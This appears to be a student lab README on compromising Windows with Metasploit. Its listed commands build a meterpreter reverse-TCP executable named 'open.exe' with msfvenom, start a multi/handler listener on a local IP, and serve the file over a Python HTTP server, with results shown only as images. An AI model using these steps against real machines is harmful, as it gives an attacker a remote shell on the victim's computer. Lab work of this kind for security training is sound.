 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.66.29 LPORT=1234 --platform=windows -f exe>open.exe```

```msfconsole -q```

```set PAYLOAD windows/meterpreter/reverse_tcp```

```use exploit/multi/handler```

```set LHOST 192.168.66.29```

```set LPORT 1234```

```run```
## OUTPUT

![image](https://github.com/user-attachments/assets/e9635a54-219d-4435-9247-440690254853)


```python3 -m http.server 5678```

### OUTPUT:

![image](https://github.com/user-attachments/assets/da793e31-df02-4d4a-8387-9bd2557df737)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
